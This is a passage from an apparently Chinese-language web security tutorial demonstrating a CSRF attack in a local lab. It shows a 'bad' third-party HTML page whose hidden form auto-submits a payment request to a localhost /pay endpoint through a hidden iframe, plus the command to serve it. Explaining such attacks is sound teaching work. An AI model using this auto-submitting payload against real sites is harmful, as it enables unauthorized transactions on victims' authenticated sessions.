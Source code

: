 登录完成之后，可以看到 Cookie 是种到 `http://127.0.0.1` 这个域下面的。

第三方页面：

```html
<!-- badServer/bad.html -->

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>第三方网站</title>
  </head>
  <body>
    <div>当前访问地址：http://127.0.0.1:3100</div>
    <div>
      哈哈，小样儿，哪有赚大钱的方法，还是踏实努力工作吧！
      <!--
        Form 表单的提交会伴随着跳转到 action 中指定的 url 链接，
        为了阻止这一行为，可以通过设置一个隐藏的 iframe 页面，
        并将 Form 的 target 属性指向这个 iframe，当前页面 iframe 则不会刷新页面
      -->
      <form action="http://127.0.0.1:3200/pay" method="POST" class="form" target="targetIframe" style="display: none">
        <input type="text" name="userName" value="xiaoming" />
        <input type="text" name="money" value="100" />
      </form>
      <iframe name="targetIframe" style="display: none"></iframe>
    </div>
  </body>
  <script>
    document.querySelector('.form').submit()
  </script>
</html>
```

使用 http-server 起一个 本地端口为 3100 的服务，就可以通过 http://127.0.0.1:3100/bad.html 这个链接来访问。
CSRF 攻击需要做的就是在正常的页面上诱导用户点击链接进入这个页面。

```
$ npx http-server -p 3100 -c-1
```

![004_CSRF表现_跨站请求](./images/004_CSRF表现_跨站请求.png)